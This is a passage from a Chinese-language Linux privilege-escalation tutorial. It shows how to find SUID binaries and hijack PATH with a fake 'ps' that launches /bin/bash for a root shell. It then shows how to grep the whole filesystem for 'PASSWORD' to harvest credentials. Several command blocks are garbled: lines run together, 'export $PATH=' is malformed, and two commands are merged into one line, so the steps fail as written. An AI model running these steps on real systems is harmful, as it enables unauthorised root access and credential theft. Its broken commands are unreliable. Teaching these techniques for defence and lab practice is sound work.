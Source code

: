 首先在一个目录下创建如下文件

```
vim demo.c
```



然后 gcc demo.c -o shell 将其编译为可执行文件

然后 chmod u+s shell 为其增加suid权限

攻击者视角:

首先使用下列指令搜寻suid权限文件

```
find / -perm -u=s -type f 2>/dev/null
```

![image-20220418222958769](/assets/img/image-20220418222958769.png)

发现可疑目标，执行一下看看

![image-20220418223005230](/assets/img/image-20220418223005230.png)

发现返回了ps命令的结果，我们可以以此猜测这个文件内部 有 system(“ps”); 这条c语言代码。
遂可尝试环境变量提权

我们依次执行以下命令

```
cd /tmpecho "/bin/bash" > psexport $PATH=/tmp:$PATH        需要修改自身环境变量的权限，但基本上都有这个权限
chmod 777 ./ps                 没这条命令会导致提权失败
cd /home/const27
./shell                        提权成功
```

![image-20220418223025863](/assets/img/image-20220418223025863.png)

## 七. 密码查找

这个提权技术说白了，就是去到处翻密码

### 1. 文件内查找

```
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/nullfind . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
```

我们可以通过以上命令，指定关键字，在所有文件中搜索内容中有关键字的文件。

### 2. 查找十分钟内更改过的文件

```
find / -mmin -10 2>/dev/null | grep -Ev "^/proc"  (不显示^/proc文件或文件夹)
```

